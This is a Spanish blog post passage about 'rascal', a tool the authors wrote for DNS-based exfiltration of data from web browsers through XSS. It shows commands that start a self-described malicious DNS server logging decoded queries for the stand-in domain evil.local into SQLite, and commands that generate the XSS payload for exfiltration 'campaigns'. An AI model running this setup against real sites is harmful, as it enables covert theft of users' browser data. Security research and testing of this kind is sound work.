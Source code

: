 Ahora tenemos que recoger los datos. En un primer momento pensamos en usar BIND o PowerDNS para recuperar la información de los logs, pero esto puedes ser más complejo y, por supuesto, no es un proceso rápido. 
{: style="text-align: justify;"}

Hay varios proyectos de exfiltración por DNS que permite recuperar archivos, montar túneles y demás que seguro funcionan de vicio, pero no hay ninguno pensado para exfiltración desde clientes Web. Así que hemos creado uno! !
{: style="text-align: justify;"}

Podéis descargarlo desde [Github](https://github.com/gum0x/rascal).

De momento consta de dos partes. El servidor DNS, que guardará las llamadas decodificadas en una base de datos SQLite, y el cliente, que nos mostrará los datos agrupados y nos ayudará a generar el payload que hemos trabajado en los pasos anteriores. 
{: style="text-align: justify;"}

**Nota:** tened en cuenta que necesitáis un dominio configurado para apuntar al servidor donde levantaremos nuestro DNS malicioso, para que las peticiones DNS de nuestro dominio malicioso le lleguen.  
{: style="text-align: justify;"}

#### Arrancar el servidor

Primero de todo, cread la base de datos SQLite.
{: style="text-align: justify;"}
```
sqlite3 xss.db < init.sql
```
Antes de de nada, de momento el servidor es compatible sólo con *python2 (en un futuro será compatible con python3)* y require de las librerías *dnslib* que podéis instalar mediante *pip. *Tenéis el archivo *requeriments.txt *en el repo.
{: style="text-align: justify;"}

Para arrancar el servidor hacemos:  
{: style="text-align: justify;"}
```
python rascal.py --db /tmp/xss.db --domain evil.local -i "*.evil.local IN A 10.22.3.66"
```
Donde* --domain * es el dominio que queremos capturar, *-i* es el *registro de zona *que vamos a utilizar para resolver y finalmente *--db *que es el archivo *sqlite * donde vamos a volcar los datos exfiltrados. 
{: style="text-align: justify;"}

[![Query de prueba contra rascal](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-20-at-22.43.36-1-1024x204.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-20-at-22.43.36-1.png)

Ya tenemos *rascal* listo!

### Generar payload

Con *rascalcl *podemos generar el payload.
{: style="text-align: justify;"}
```
python rascalcl.py --code -d evil.local --maxchar 10 -s demo01
```
Donde *-d* es el dominio de nuestros servidor DNS malicioso, *--maxchar* el número de caractéres máximos de cada elemento *link* utilizado y finalmente* -s *que es la etiqueta que queremos concatenar a la sesión. Así podremos categorizar las exfiltraciones por «campañas» dentro de la misma base de datos. 
{: style="text-align: justify;"}
